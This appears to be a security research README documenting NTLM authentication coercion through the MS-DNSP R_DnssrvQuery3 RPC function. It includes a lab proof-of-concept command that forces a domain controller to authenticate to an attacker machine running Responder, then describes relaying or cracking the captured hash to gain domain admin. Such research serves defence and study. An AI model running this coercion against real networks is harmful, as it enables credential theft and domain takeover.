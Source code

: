 # MS-DNSP - Remote call to R_DnssrvQuery3 (opnum 13)

## Summary

+ **Protocol**: [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a)

+ **Protocol UUID**: 50abc2a4-574d-40b3-9d66-ee4fd5fba076

+ **Protocol version**: 0.0

+ **SMB Named pipe**: `\PIPE\DNSSERVER`

+ **Function name**: [`R_DnssrvQuery3`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/0cb4d9ce-e08c-40e6-b4d5-5603b3fbc880)

+ **Function operation number**: `13`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\DNSSERVER` and bind to the desired [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol (with uuid `50abc2a4-574d-40b3-9d66-ee4fd5fba076` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\DNSSERVER` This pipe is connected to the protocol [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) and allows to call RPC functions of this protocol. We will then call the remote [`R_DnssrvQuery3`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/0cb4d9ce-e08c-40e6-b4d5-5603b3fbc880) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_DnssrvQuery3('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
LONG R_DnssrvQuery3(
   [in]                               DWORD                 dwClientVersion,
   [in]                               DWORD                 dwSettingFlags,
   [in, unique, string]               LPCWSTR               pwszServerName,
   [in, unique, string]               LPCSTR                pszZone,
   [in, unique, string]               LPCWSTR               pszZoneScopeName,
   [in, unique, string]               LPCSTR                pszOperation,
   [out]                              PDWORD                pdwTypeId,
   [out, switch_is(*pdwTypeId)]       DNSSRV_RPC_UNION*     ppData
 );
```

## References

+ Documentation of protocol [MS-DNSP]: Domain Name Service (DNS) Server Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a

+ Documentation of function `R_DnssrvQuery3`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/0cb4d9ce-e08c-40e6-b4d5-5603b3fbc880